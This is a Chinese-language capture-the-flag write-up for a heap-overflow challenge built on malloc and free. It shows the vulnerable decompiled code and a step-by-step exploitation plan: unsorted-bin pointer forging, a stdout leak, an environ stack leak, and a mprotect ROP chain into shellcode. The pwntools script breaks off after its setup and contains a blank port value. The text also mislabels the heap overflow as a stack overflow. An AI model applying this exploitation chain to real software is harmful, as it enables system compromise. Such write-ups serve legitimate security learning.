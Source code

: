 题目只有 `malloc` 和 `free` 两个功能. 在`add`功能中有漏洞:

```c
printf("Enter the size of the chunk: ", v1);
v3 = get_ll();
if ( (char)v3 <= 0x78 ){
    g_ptrs[v2] = malloc((char)v3);              // heap overflow
    printf("Enter note: ");
    get_str((void *)g_ptrs[v2], v3);
}
```

`size` 传给 `malloc`  的时候被转成了 `char`, 但是读取输入的时候用的是 `unsigned int`. 所以存在栈溢出漏洞.

程序有两个限制:

- `malloc`的size要小于等于 0x78, 
- 最多同时只能存在5个chunk.

题目给了libc, 版本是 2.27.

利用思路很清晰:

1. 利用溢出在堆上构造一个 `unsorted bin` 地址
2. 覆盖 `unsorted bin` 地址低两字节使其指向`stdout`
3. 覆盖 `stdout` 的 `write_base` 的低字节为 `\x00` 从而leak libc 地址
4. 利用 libc 中的 `environ` leak 栈地址
5. 在栈上构造rop链和 orw 的 shellcode. rop 思路如下:
   1. 先跳到 `mprotect`  让栈可执行
   2. 执行 `orw` shellcode 拿到flag

exp 如下:

```python
from pwn import *
from time import sleep
import sys

global io

context(arch = 'amd64', os = 'linux', endian = 'little')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

filename = "./vim"
ip = ""
port = 

LOCAL = True if len(sys.argv)==1 else False


# elf = ELF(filename)

remote_libc = "./libc.so.6"
if LOCAL:

    io = process(filename, env={'LD_PRELOAD': remote_libc}) 
    libc = ELF(remote_libc)
else:
    context.log_level = 'debug'
    io = remote(ip, port)
    libc = ELF(remote_libc)



def choice( idx):
    io.sendlineafter( "Choice: ", str(idx))
    
```